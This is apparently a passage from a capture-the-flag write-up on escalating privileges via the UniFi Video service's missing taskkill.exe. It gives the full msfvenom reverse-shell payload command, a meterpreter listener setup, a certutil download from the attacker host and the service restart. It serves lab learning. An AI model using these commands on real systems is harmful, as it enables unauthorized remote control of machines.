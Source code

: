 When the "Ubiquiti UniFi Video" service is started, it looks and tries to execute a file at `C:\ProgramData\unifi-video\taskkill.exe`. This file does not exist by default, allowing for Arbitrary Code Execution. 

My choice of privilege escalation would be to get a shell, so I opted for a reverse shell in my payload.

To create my reverse shell payload, I used `msfvenom` and ran the following command.
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f exe > taskkill.exe
```

Starting my `meterpreter` listener.
```
$ msfconsole
msf6 > use windows/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.14.22
msf6 > set LPORT 4444
msf6 > exploit
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 10.10.14.22:4444
```

With my listener running, I grabbed my `taskkill.exe` file from my attacking machine to my victim machine using a `python3` web server and `certutil` on `Powershell` to download the file.
```
PS C:\ProgramData\unifi-video> certutil -f -split -urlcache http://10.10.14.22/taskkill.exe
```

![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-30 at 1.11.58 PM.png)

Now that my payload is saved into the file that will be executed by the service on start, all I have to do is restart the service.
```
PS C:\ProgramData\unifi-video> Restart-Service -Name "Ubiquiti UniFi Video"
```
![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-30 at 3.50.05 PM.png)

And there was my `meterpreter` session. I connected to the session, spawned a shell, and read the `root` flag.
![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-30 at 3.52.28 PM.png)